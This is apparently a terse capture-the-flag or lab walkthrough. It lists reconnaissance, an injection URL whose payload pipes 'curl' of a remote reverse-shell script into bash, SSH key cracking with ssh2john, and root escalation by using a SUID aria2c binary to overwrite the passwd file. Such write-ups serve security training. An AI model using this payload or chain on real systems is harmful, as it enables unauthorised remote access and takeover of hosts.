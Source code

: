 - nmap scan reveals 80 and 22 port only
- Directory fuzzing with gobuster found /page
- LFI on the page url http://192.168.207.94/index.php?page=%27%20and%20die(system(%22curl%20http://192.168.45.225:8080/rshell.sh%20|%20bash%22))%20or%20%27 #LFI #command_injection
- Got the revshell.
- Found ssh private key on tge todeletelater folder
- ssh2john gives us the passkey 
- from passkey we got the username hint
- Log into soz user with ssh private key
- SUID found aria2c #suid_privesc 
- Got the root shell by replacing the passwd file.

